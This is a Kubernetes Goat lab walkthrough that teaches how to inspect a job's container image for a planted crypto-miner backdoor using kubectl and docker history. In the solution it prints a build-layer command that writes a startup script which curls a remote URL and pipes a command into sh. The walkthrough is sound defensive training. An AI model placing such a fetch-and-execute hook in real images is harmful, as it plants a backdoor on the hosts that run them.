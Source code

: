 # ⎈ Analysing crypto miner container

## 🙌 Overview

It's commonly seen that most of the container users download the images from the public container registries like Docker Hub and others. We have seen a ton of hacks and compromises of these and also attackers abusing these by uploading the container images which has crypto miners to use the cluster resources. In this scenario, we see one simple and very common way of exploiting these vulnerabilities in the public container images.

![](images/scenario-diagram-wip.png)

By the end of the scenario, we will understand and learn the following

1. You will learn to analyze the container image
2. Understanding Kubernetes jobs and working with them
3. Learning about container image manifests and the backdoors and crypto miners

### ⚡️ The story

Crypto mining has become popular with modern infrastructure. Especially environments like Kubernetes are an easy target as you might not even look at what exactly the container image builds upon and what it is doing with proactive monitoring. Here in this scenario, we will analyze and identify the crypto miner.

:::info

* To get started, identify all the resources/images in the Kubernetes cluster including jobs

```bash
kubectl get jobs
```

:::

![Scenario 10 get jobs](images/sc-10-1.png)

### 🎯 Goal

:::tip

To complete this scenario find the `k8s_goat_flag` flag value in the batch-job container image

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Found the container image? </b></summary>
  <div>
    <div>Learn to inspect the container images using the built-in commands in docker 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Still no flag? </b></summary>
  <div>
    <div>Learn to understand how container layers created using history command with full data 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

:::info

Identify all resources within a Kubernetes cluster. If possible get into details of each container image available in all the nodes within the cluster as well

:::

* Once we have identified the job in the Kubernetes cluster, we can obtain the pod information by running the following command

```bash
kubectl describe job batch-check-job
```

![Scenario 10 get job info](images/sc-10-2.png)

* Then get the pod information by running the below command which showcases the pods with the labels and selectors matching

```bash
kubectl get pods --namespace default -l "job-name=batch-check-job"
```

* We can get all the information of the pod spec by running the following command, which returns the entire manifest information in the `YAML` output format

```bash
kubectl get pod batch-check-job-xxxx -o yaml
```

![Scenario 10 get pod info](images/sc-10-3.png)

* We can see that this job pod is running `madhuakula/k8s-goat-batch-check` docker container image

* Now we can perform an analysis of this container image, by looking at its layers and how it got created. Here we can see that it contains a command executing the external script in the build time in one of the layer

```bash
docker history --no-trunc madhuakula/k8s-goat-batch-check
```

![Scenario 10 get docker history](images/sc-10-4.png)

```bash
echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup && chmod +x /usr/bin/system-startup
```

* Hooray 🥳 , now we can see that it contains the Kubernetes Goat flag

:::danger

This is the common way attackers push crypto miner images into the public container registries where we don't have a way to introspect the `Dockerfile` and end up running crypto miners as we don't know how the container image has been built

:::

## 🔖 References

* [Docker Hub Hack of 190k accounts review](https://medium.com/madhuakula/some-tips-to-review-docker-hub-hack-of-190k-accounts-addcd602aade)
* [20 Million Miners: Finding Malicious Cryptojacking Images in Docker Hub](https://unit42.paloaltonetworks.com/malicious-cryptojacking-images/)
* [Tainted, crypto-mining containers pulled from Docker Hub](https://techcrunch.com/2018/06/15/tainted-crypto-mining-containers-pulled-from-docker-hub/)
